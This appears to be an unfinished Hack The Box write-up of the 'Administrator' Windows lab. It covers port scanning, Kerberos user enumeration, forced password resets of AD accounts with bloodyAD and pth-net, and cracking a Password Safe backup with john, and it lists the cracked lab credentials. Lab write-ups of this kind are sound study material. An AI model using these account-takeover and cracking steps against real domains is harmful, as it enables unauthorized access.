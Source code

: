 # Administrator - HTB Write-up (Work in progress)
<img src="https://labs.hackthebox.com/storage/avatars/9d232b1558b7543c7cb85f2774687363.png" width="200" height="200">

As is common in real life Windows pentests, you will start the Administrator box with credentials for the following account: 

Username: `Olivia` 
Password: `ichliebedich`

## Initial portscan
```shell
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-10 00:57:12Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
52801/tcp open  msrpc         Microsoft Windows RPC
60218/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
60223/tcp open  msrpc         Microsoft Windows RPC
60245/tcp open  msrpc         Microsoft Windows RPC
60249/tcp open  msrpc         Microsoft Windows RPC
60283/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-03-10T00:58:04
|_  start_date: N/A
|_clock-skew: 6h59m01s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

## Port 21 - FTP
Can't access with `Olivia` credentials.

## Port 53 - Simple DNS
Let's run gobuster in dns mode, maybe we can get a subdomain.

```shell
❯ gobuster dns -d $domain -r $ip -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     administrator.htb
[+] Threads:    10
[+] Resolver:   10.129.74.224
[+] Timeout:    1s
[+] Wordlist:   /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Found: dc.administrator.htb
Found: gc._msdcs.administrator.htb
Found: domaindnszones.administrator.htb
Found: forestdnszones.administrator.htb
```
Add all the domians to `/etc/hosts`.

## Port 88 - Kerberos

**Users enumeration**
```shell
❯ ./kerbrute -d $domain --dc $ip userenum /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames-dup.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 03/09/25 - Ronnie Flathers @ropnop

2025/03/09 14:19:32 >  Using KDC(s):
2025/03/09 14:19:32 >   10.129.74.224:88

2025/03/09 14:19:32 >  [+] VALID USERNAME:       michael@administrator.htb
2025/03/09 14:19:35 >  [+] VALID USERNAME:       benjamin@administrator.htb
2025/03/09 14:19:44 >  [+] VALID USERNAME:       administrator@administrator.htb
2025/03/09 14:19:44 >  [+] VALID USERNAME:       emily@administrator.htb
2025/03/09 14:19:48 >  [+] VALID USERNAME:       olivia@administrator.htb
2025/03/09 14:19:56 >  [+] VALID USERNAME:       ethan@administrator.htb
```
DOMAIN SID: `S-1-5-21-1088858960-373806567-254189436`

## Port 445 - SMB/CIFS
```shell
❯ nxc smb $ip -u Olivia -p ichliebedich --shares
SMB         10.129.74.224   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.129.74.224   445    DC               [+] administrator.htb\Olivia:ichliebedich 
SMB         10.129.74.224   445    DC               [*] Enumerated shares
SMB         10.129.74.224   445    DC               Share           Permissions     Remark
SMB         10.129.74.224   445    DC               -----           -----------     ------
SMB         10.129.74.224   445    DC               ADMIN$                          Remote Admin
SMB         10.129.74.224   445    DC               C$                              Default share
SMB         10.129.74.224   445    DC               IPC$            READ            Remote IPC
SMB         10.129.74.224   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.74.224   445    DC               SYSVOL          READ            Logon server share 
```

## BloodyAD - Writable AD Objects
```shell
❯ bloodyAD --host $ip -d administrator.htb -u Olivia -p ichliebedich get writable

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=administrator,DC=htb
permission: WRITE

distinguishedName: CN=Olivia Johnson,CN=Users,DC=administrator,DC=htb
permission: WRITE

distinguishedName: CN=Michael Williams,CN=Users,DC=administrator,DC=htb
permission: CREATE_CHILD; WRITE
OWNER: WRITE
DACL: WRITE
```

## BloodyAD - Change the password of michael user
In the previous run we saw that we have access to michael user, let's change his password.

```shell
❯ bloodyAD --host $ip -d administrator.htb -u Olivia -p ichliebedich set password michael password123
[+] Password changed successfully!
```

## Analyzing with Bloodhound CE
Use bloodhound-python to dump all info from AD then upload to BloodHound CE to analysis.

It reveals that user `michael` can change the password of user `benjamin` by using the `ForceChangePassword` method.

## Change the password of user benjamin
```shell
❯ pth-net rpc password "benjamin" "newP@ssword2022" -U "ADMINISTRATOR"/"michael"%"password123" -S "10.129.74.224"
E_md4hash wrapper called.
```

**New credentials:**
`benjamin`/`newP@ssword2022`

## Using new credentials
We try the new credentials in all services again. In the ftp we find the file `Backup.psafe3`.

Doing some research we can get the hash for john using `pwsafe2john` utility.

```shell
❯ pwsafe2john Backup.psafe3
Backu:$pwsafe$*3*4ff588b74906263ad2abba592aba35d58bcd3a57e307bf79c8479dec6b3149aa*2048*1a941c10167252410ae04b7b43753aaedb4ec63e3f18c646bb084ec4f0944050
```

Now use it with john-the-ripper.
```shell
❯ john --wordlist=/usr/share/wordlists/rockyou.txt Backup.psafe3.hash
Using default input encoding: UTF-8
Loaded 1 password hash (pwsafe, Password Safe [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tekieromucho     (Backu)     
1g 0:00:00:00 DONE (2025-03-09 23:50) 6.666g/s 81920p/s 81920c/s 81920C/s 123456..hawkeye
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

**Credentials of file**
`tekieromucho`

**Contents of the file**
- `alenxander` / `UrkIbagoxMyUGw0aPlj9B0AXSea4Sw`
- `emily` / `UXLCI5iETUsIBoFVTj8yQFKoHjXmb`
- `emma` / `WwANQWnmJnGV07WQN8bMS7FMAbjNur`